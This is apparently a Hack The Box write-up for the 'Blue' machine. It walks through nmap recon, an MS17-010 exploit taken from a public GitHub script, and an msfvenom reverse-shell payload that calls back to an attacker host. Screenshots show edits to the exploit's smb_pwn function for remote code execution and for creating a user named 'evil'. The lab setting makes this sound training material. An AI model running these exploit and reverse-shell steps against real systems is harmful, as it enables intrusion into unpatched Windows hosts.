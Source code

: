 # Blue Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA blue 10.10.10.40``

### and

``nmap --script vuln 10.10.10.40``

# ${{\color{purple}Initial Foothold}}\ $

![image](https://user-images.githubusercontent.com/123066149/219156029-61007f6c-1d63-4c56-80c3-b0b229a7d281.png)

# ${{\color{purple}Exploitation}}\ $

### I used this script to run ms-17-010 :
### The most important thing here is not the exploitation but to make a python2 script work with impacket

https://github.com/k4u5h41/MS17-010_CVE-2017-0143

``git clone https://github.com/k4u5h41/MS17-010_CVE-2017-0143``

### There is no need for it for this exploit but the pipes checker works very well :

![blue2](https://user-images.githubusercontent.com/123066149/219165990-17752e32-6dfb-4b7a-ba59-a86b0c56e03f.PNG)


``msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.5 LPORT=1234 -f exe -o ms17-010.exe``

### Change the username to make it work in the exploit 

![image](https://user-images.githubusercontent.com/123066149/219158101-530f4d9d-5ed4-409d-bed3-a0a82bc165cf.png)

``python2.7 send_and_execute.py 10.10.10.40 ms17-010.exe``

![image](https://user-images.githubusercontent.com/123066149/219158641-ace89ab3-225a-4e79-ba19-8d81347e8ca5.png)

![image](https://user-images.githubusercontent.com/123066149/219158807-4134bd30-2ed5-4c02-87f4-583882b6c2e3.png)

# ${{\color{purple}Privilege Escalation}}\ $

### No priv esc because the service runs with system rights

# ${{\color{purple}Point of Improvement}}\ $

* If I have problems with a python 2.7 script and impacket I have to do this :

``sudo python2.7 get-pip.py``

``pip2.7 install --upgrade setuptools``

``pip install impacket==0.9.22``

![image](https://user-images.githubusercontent.com/123066149/219160110-72dbd5b9-e8ee-4af8-8199-40a5f749e80d.png)

# ${{\color{purple}Other tets}}\ $

### Test of the exploit 42315.py

![blue5](https://user-images.githubusercontent.com/123066149/219174901-f68feb19-1549-4097-9ab6-607db3c29aed.PNG)

### Modification of the smb_pwn function :


![blue6](https://user-images.githubusercontent.com/123066149/219175013-27ec2f1f-a6fb-4c60-bdb4-2746fe0f8148.PNG)

![blue3](https://user-images.githubusercontent.com/123066149/219174727-b487e88a-d945-4456-9884-305f928f8c65.PNG)

![blue4](https://user-images.githubusercontent.com/123066149/219174912-019f1ad4-3c07-4b43-b391-8980728eb7e6.PNG)


### Test of the RCE via ping and tcpdump :
### Modification of the smb_pwn function :

![blue7](https://user-images.githubusercontent.com/123066149/219175311-5ce854fc-0d1f-457c-996c-36249ec33e08.PNG)

![blue8](https://user-images.githubusercontent.com/123066149/219175336-9aebc130-0d4a-4ed1-a735-565f91dccbd8.PNG)

![blue9](https://user-images.githubusercontent.com/123066149/219175351-95653981-f62b-4ba5-89b2-d56efd2481d6.PNG)

### Creation of a user evil :
### Modification of the smb_pwn function :

![blue10](https://user-images.githubusercontent.com/123066149/219175537-e3b8f7f7-c0c0-4286-a445-04eaef3ea009.PNG)

![blue12](https://user-images.githubusercontent.com/123066149/219175605-eb354ce2-2f86-415f-a3ca-87edbd8fc66e.PNG)


![blue11](https://user-images.githubusercontent.com/123066149/219175576-d12f11e8-37ac-4586-9b12-b4b42b6c480f.PNG)


